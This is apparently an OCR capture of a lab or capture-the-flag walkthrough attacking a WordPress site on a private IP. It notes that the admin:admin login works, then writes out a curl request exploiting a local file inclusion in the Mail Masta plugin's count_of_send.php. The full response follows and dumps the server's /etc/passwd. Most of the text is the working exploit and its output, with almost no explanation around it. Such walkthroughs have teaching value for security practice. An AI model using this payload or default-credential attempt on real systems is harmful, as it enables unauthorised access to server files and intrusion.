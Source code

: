 [+] Finished: Fri Jun 23 04:49:31 2017
[+] Requests Done: 4523
[+] Memory used: 168.398 MB
[+] Elapsed time: 00:00:52


Try logging in as admin:admin, works


curl -v http://10.37.129.6/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
*   Trying 10.37.129.6...
* TCP_NODELAY set
* Connected to 10.37.129.6 (10.37.129.6) port 80 (#0)
> GET /wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd HTTP/1.1
> Host: 10.37.129.6
> User-Agent: curl/7.51.0
> Accept: */*
>
* HTTP 1.0, assume close after body
< HTTP/1.0 500 Internal Server Error
< Date: Sat, 10 Jun 2017 03:27:17 GMT
< Server: Apache/2.2.22 (Ubuntu)
< X-Powered-By: PHP/5.3.10-1ubuntu3
< Vary: Accept-Encoding
< Content-Length: 1745
< Connection: close
< Content-Type: text/html
<
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:103:107::/var/run/dbus:/bin/false
colord:x:104:109:colord colour management daemon,,,:/var/lib/colord:/bin/false
whoopsie:x:105:112::/nonexistent:/bin/false
avahi:x:106:115:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
bind:x:107:117::/var/cache/bind:/bin/false
postfix:x:108:118::/var/spool/postfix:/bin/false
dovecot:x:109:120:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
dovenull:x:110:65534:Dovecot login user,,,:/nonexistent:/bin/false
landscape:x:111:121::/var/lib/landscape:/bin/false
libvirt-qemu:x:112:106:Libvirt Qemu,,,:/var/lib/libvirt:/bin/false
libvirt-dnsmasq:x:113:123:Libvirt Dnsmasq,,,:/var/lib/libvirt/dnsmasq:/bin/false
sshd:x:114:65534::/var/run/sshd:/usr/sbin/nologin
postgres:x:115:124:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
tomcat6:x:116:126::/usr/share/tomcat6:/bin/false